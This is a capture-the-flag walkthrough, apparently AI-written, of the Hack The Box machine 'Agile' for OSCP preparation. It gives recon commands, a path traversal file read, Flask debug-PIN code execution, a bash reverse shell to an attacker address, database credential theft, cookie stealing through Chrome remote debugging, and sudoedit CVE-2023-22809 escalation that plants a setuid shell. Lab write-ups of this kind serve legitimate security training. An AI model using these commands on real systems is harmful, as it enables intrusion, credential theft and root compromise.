 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
- **Exploits Used**:
  - [HTTP](HTTP) File Read Vulnerability via `/download?fn=...`
  - Flask Debug Mode Code Execution via Werkzeug PIN Bypass
  - Database Credential Extraction 🐍
  - Chrome Remote Debugging Cookie Stealing 🥸
  - [Sudoedit](https://nvd.nist.gov/vuln/detail/CVE-2023-22809) via CVE-2023-22809 to escalate to root 🧨
- **Open Ports**:
  - [SSH](SSH) (22)
  - [HTTP](HTTP) (80)

---

[Tools](Tools)
- `nmap` 🛰️
- `feroxbuster` 🦡
- `curl` 🌐
- `Burp Suite` 🐞
- `sshpass` 🧑‍💻
- `mysql` 🐬
- `Chromium DevTools` 🔧
- `nc` 📞
- `Selenium` 🧪
- `pytest` 🔁
- `sudoedit` ✍️

---

### Commands to Solve Box

#### 🧭 Recon
```bash
nmap -p- --min-rate 10000 10.10.11.203
nmap -p 22,80 -sCV 10.10.11.203
feroxbuster -u http://superpass.htb --dont-extract-links
```

#### 🪝 Initial Access (www-data)
- Exploit `/download?fn=../../../../etc/passwd` to confirm file read vuln.
- Leak Flask Debug PIN via [Werkzeug debug PIN generation](https://book.hacktricks.xyz/pentesting-web/flask-pin-obtain-remote-code-execution).
- Use leaked info to generate correct PIN and gain RCE via Flask console.
- Spawn reverse shell via `os.system('bash -c "bash -i >& /dev/tcp/10.10.14.X/443 0>&1"')`.

#### 📂 Escalation to User corum
- Read `/app/config_prod.json` and connect to DB using `mysql`.
- Extract corum’s password from DB and login via `sshpass`.

```bash
mysql -u superpassuser -p'dbpassword' superpass
```

#### 🧪 Shell as edwards
- Tunnel `localhost:5555` and `localhost:41829` using:
```bash
ssh -L 5555:localhost:5555 -L 41829:localhost:41829 corum@superpass.htb
```
- Access [Chrome Debugger](chrome://inspect) and steal cookies for edwards.
- Reuse cookie to extract password, login via `ssh`.

#### 🚨 Root Access
- Exploit [CVE-2023-22809](https://nvd.nist.gov/vuln/detail/CVE-2023-22809) using `sudoedit` with `EDITOR='vim -- /app/venv/bin/activate'`.
- Inject:
```bash
cp /bin/bash /tmp/0xdf; chmod +s /tmp/0xdf
```
- Wait for cron/root login, then:
```bash
/tmp/0xdf -p
```

---

### ✅ Actions Learned From This Box
- 🧠 Deep understanding of Flask’s debug mode and Werkzeug PIN generation.
- 🐍 How Python virtual environments interact with `bashrc`.
- 🔎 Abuse of Chrome remote debugging via dev test pipelines.
- ⚠️ The power (and danger) of misconfigured `sudoedit` privileges.
- 🧬 Realistic dev-to-prod test integration flaws, great CI/CD misconfig example.
- 🎯 Tunneling techniques for local-only service access.

---

### References 📚
- 📖 [HackTricks: Flask Debug RCE](https://book.hacktricks.xyz/pentesting-web/flask-pin-obtain-remote-code-execution)
- 📖 [CVE-2023-22809 sudoedit Exploit](https://www.qualys.com/2023/01/30/cve-2023-22809/cve-2023-22809.txt)
- 🛠️ [Werkzeug Source for PIN Gen](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py)
- 🧪 [Selenium Chrome Debug Port Abuse](https://security.snyk.io/vuln/SNYK-PYTHON-SELENIUM-3187814)
- 🧠 [0xdf's Full Write-up](https://0xdf.gitlab.io/2023/08/05/htb-agile.html)

---

Let me know when you want the next one prepped like this! 💻🔥